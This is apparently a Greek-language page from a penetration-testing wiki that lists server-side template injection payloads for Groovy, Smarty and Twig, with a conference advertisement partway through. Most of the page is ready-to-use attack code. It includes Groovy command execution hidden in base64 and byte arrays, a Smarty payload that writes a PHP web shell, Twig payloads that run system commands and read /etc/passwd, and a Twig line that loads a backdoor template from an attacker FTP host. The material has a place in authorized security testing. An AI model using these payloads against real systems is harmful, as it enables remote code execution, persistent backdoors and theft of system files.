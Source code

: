 ```java
new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x")
this.evaluate(new String(java.util.Base64.getDecoder().decode("QGdyb292eS50cmFuc2Zvcm0uQVNUVGVzdCh2YWx1ZT17YXNzZXJ0IGphdmEubGFuZy5SdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCJpZCIpfSlkZWYgeA==")))
this.evaluate(new String(new byte[]{64, 103, 114, 111, 111, 118, 121, 46, 116, 114, 97, 110, 115, 102, 111, 114, 109, 46, 65, 83, 84, 84, 101, 115, 116, 40, 118, 97, 108, 117, 101, 61, 123, 97, 115, 115, 101, 114, 116, 32, 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82,117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 105, 100, 34, 41, 125, 41, 100, 101, 102, 32, 120}))
```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **την αποστολή της προώθησης της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες της τεχνολογίας και της κυβερνοασφάλειας σε κάθε πειθαρχία.

{% embed url="https://www.rootedcon.com/" %}

##

### Smarty (PHP)
```php
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```
**Περισσότερες πληροφορίες**

* Στην ενότητα Smarty του [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)

### Twig (PHP)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{7*'7'}} = 49`
* `{{1/0}} = Error`
* `{{foobar}} Nothing`
```python
#Get Info
{{_self}} #(Ref. to current application)
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}

#File read
"{{'/etc/passwd'|file_excerpt(1,30)}}"@

#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id',""]|sort('system')}}
```